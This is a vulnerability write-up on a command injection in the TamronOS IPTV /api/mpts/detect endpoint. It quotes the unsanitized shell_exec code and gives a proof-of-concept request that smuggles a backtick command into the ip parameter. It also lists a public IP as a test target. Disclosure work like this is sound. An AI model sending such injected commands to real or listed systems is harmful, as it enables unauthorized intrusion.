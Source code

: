 # Tamronos-iptv-detect-rce.md

The TamronOS IPTV system has command execution vulnerabilities

official website：http://www.tamronos.com/

## Vulnerability Details

The detect() method in the `iptv/Controllers/MptsController.php` file does not perform filtering verification on the `$_GET['address']` , `$_GET['ip']` passed in by the user. Instead, it is directly passed into function shell_exec() and can be used `` Truncating the command resulted in command injection.

![detect](https://github.com/yuxianzi/Tamronos-iptv-CVE/blob/main/png/detect.jpg)

Code:
```
    public function detect(){

        $file = '/tmp/mptsdetect.log';
        Command::rm($file);
        $cmd = sprintf('/usr/bin/sudo /usr/bin/dvblast -D %s/udp/ifaddr=%s >null 2>%s &', $_GET['address'], $_GET['ip'], $file);
        shell_exec($cmd);
....
```
Access the /api/mpts/detect path to call the detect() method


## Recurrence vulnerability

Test version : TamronOS IPTV 8.6.3 、  TamronOS IPTV/VOD系统 v5


request 
```
/api/mpts/detect?address=aaaa&ip=`touch+/cgi/public/js/aaa.txt`
```
![request_detect](https://github.com/yuxianzi/Tamronos-iptv-CVE/blob/main/png/request_detect.jpg)

访问http://localhost.com/js/aaa.txt

![testok](https://github.com/yuxianzi/Tamronos-iptv-CVE/blob/main/png/testok.jpg)


Test url
```
http://103.95.24.37/
```
